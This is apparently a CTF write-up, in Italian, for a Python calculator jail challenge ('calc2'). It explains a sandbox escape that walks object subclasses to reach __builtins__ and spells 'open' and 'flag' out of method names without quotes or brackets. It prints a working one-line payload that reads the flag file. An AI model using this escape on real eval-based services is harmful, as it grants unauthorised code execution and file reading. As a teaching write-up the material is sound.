


# PyCalcolatrice 2.0 (`calc2`)

Collegandosi al `nc` ci si trova davanti alla stessa interfaccia di `calc1`, anche se le funzionalità sono più limitate a causa della mancanza di SymPy.



Analizzando lo script, vengono impostati gli stessi limiti di `calc1`, ma più stringenti, perché senza SymPy bastano meno risorse:
- Il tempo massimo di utilizzo della CPU è sceso a 1 secondo;
- La quantità massima di memoria è scesa a 16 MB.

Valgono le stesse considerazioni di [`calc1`](../../calc1/writeup/) e l'obiettivo è sempre quello di riuscire a ottenere i `builtins` di Python per leggere la flag, ma ci sono alcune limitazioni in più:
- Non ci sono funzioni di librerie esterne come SymPy che si possano sfruttare;
- Non si possono usare virgolette, quindi non si possono scrivere stringhe (almeno sembra);
- Non si possono usare parentesi quadre o graffe, quindi non si possono scrivere strutture dati come liste e dizionari (almeno sembra, ancora una volta).

Si può immaginare che esistano molte soluzioni tutte diverse, ma devono tutte partire da un oggetto e un modo per ottenerne uno (probabilmente l'unico rimasto) è creare una tupla con `()`. Da questo punto in poi seguo un percorso personale, lasciandomi un po' ispirare da un writeup di una vecchia challenge [che ha qualche caratteristica in comune](https://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/).

Ispeziono le poche classi rimaste a disposizione nell'ambiente Python attuale (qualcuna rimane sempre), prendendo le sottoclassi di `object`, che è la superclasse di `tuple`:

```python
>>> ().__class__.__base__.__subclasses__()
[<class 'type'>, <class 'async_generator'>, ...]
```

Applicando lo stesso principio usato per `calc1`, posso cercare un metodo di una di queste classi che, in quanto funzione, abbia l'attributo `__builtins__`. Effettuando la ricerca in locale:

```python
>>> for c in object.__subclasses__():
...   for a in vars(c):
...     try:
...       if hasattr(getattr(c, a), "__builtins__"): print(c, a)
...     except AttributeError: pass
...
<class '_frozen_importlib._ModuleLock'> __init__
<class '_frozen_importlib._ModuleLock'> has_deadlock
...
```

`_frozen_importlib._ModuleLock` è disponibile nell'ambiente della challenge, all'indice 116, quindi scrivendo `().__class__.__base__.__subclasses__().__getitem__(116).__init__.__builtins__` ho i `builtins`, sempre sotto forma di dizionario. Come faccio, però, a costruire le stringhe `"open"` e `"flag"`?

**Fun fact #1:** In Python ogni funzione (e quindi ogni metodo e ogni classe) ha un attributo `__name__`, il cui valore è una stringa con il nome.

Ciò significa che posso costruire una stringa concatenando singoli caratteri, presi da `__name__` di funzioni opportunamente considerate, ma per accedere a un carattere di una stringa servono le parentesi quadre... o forse se ne può fare a meno?

**Fun fact #2:** in Python molti operatori in realtà corrispondono a delle chiamate a metodi ["speciali"](https://docs.python.org/3/reference/datamodel.html#special-method-names), così una classe può personalizzare il proprio comportamento rispetto a un operatore implementando il metodo corrispondente. Per esempio, `"Al" + "berto"` viene tradotto in `"Al".__add__("berto")` ed è la classe `str` a definire il metodo `__add__(self, other)` per concatenare effettivamente le stringhe.

Nel mio caso, quindi, `object[key]` si traduce in [`object.__getitem__(key)`](https://docs.python.org/3/reference/datamodel.html#object.__getitem__), che mi serve anche per accedere a `open` nel dizionario dei `builtins`. Per scrivere "open" e "flag", creo in locale una funzione Python che mi genera il codice più corto possibile per costruire queste stringhe:

```python
>>> methods = dir(())
>>> def build(s):
...   return "+".join(f"().{m}.__name__.__getitem__({m.index(c)})" for c, m in ((c, min((m for m in methods if c in m), key=len)) for c in s))
...
>>> build("open")
'().count.__name__.__getitem__(1)+().__repr__.__name__.__getitem__(4)+().index.__name__.__getitem__(3)+().count.__name__.__getitem__(3)'
>>> build("flag")
'().__format__.__name__.__getitem__(2)+().__le__.__name__.__getitem__(2)+().__add__.__name__.__getitem__(2)+().__ge__.__name__.__getitem__(2)'
```

A questo punto l'exploit finale diventa:



Flag: `rossiCTF{dUnD3r5_4r3_7h3_N3w_M47h!1!_de87b2}`

**Extra:** L'exploit è lungo 374 caratteri, ma si può ridurre a 358 trasformando alcune parti ripetute in parametri di una lambda che viene chiamata al volo:

```python
(lambda t,c:t.__class__.__base__.__subclasses__().__getitem__(116).__init__.__builtins__.__getitem__(c(1)+t.__repr__.__name__.__getitem__(4)+t.index.__name__.__getitem__(3)+c(3))(t.__format__.__name__.__getitem__(2)+t.__le__.__name__.__getitem__(2)+t.__add__.__name__.__getitem__(2)+t.__ge__.__name__.__getitem__(2)).read())((),().count.__name__.__getitem__)
```
